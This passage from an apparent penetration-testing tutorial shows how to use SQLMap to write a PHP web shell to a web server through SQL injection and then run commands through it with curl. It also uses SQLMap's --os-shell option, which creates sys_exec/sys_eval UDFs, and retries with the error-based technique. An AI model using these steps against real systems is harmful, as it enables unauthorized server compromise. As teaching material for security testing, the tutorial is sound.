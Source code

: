 We see that SQLMap confirmed that the file was indeed written:

    [17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

Now, we can attempt to access the remote PHP shell, and execute a sample command:

`curl http://www.example.com/shell.php?cmd=ls+-la`

    total 148
    drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
    drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
    -rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
    ...SNIP...

We see that our PHP shell was indeed written on the remote server, and that we do have command execution over the host server.

### OS Command Execution

Now that we confirmed that we could write a PHP shell to get command execution, we can test SQLMap's ability to give us an easy OS shell without manually writing a remote shell. SQLMap utilizes various techniques to get a remote shell through SQL injection vulnerabilities, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like `xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:

`sqlmap -u "http://www.example.com/?id=1" --os-shell`

    [*] starting @ 18:02:15 /2020-11-19/

    [18:02:16] [INFO] resuming back-end DBMS 'mysql'
    [18:02:16] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ...SNIP...
    [18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
    [18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
    [18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
    [18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
    [18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

    os-shell> ls -la
    do you want to retrieve the command standard output? [Y/n/a] a

    [18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
    No output

We see that SQLMap defaulted to `UNION` technique to get an OS shell, but eventually failed to give us any output `No output`. So, as we already know we have multiple types of SQL injection vulnerabilities, let's try to specify another technique that has a better chance of giving us direct output, like the `Error-based SQL Injection`, which we can specify with `--technique=E`:

`sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E`
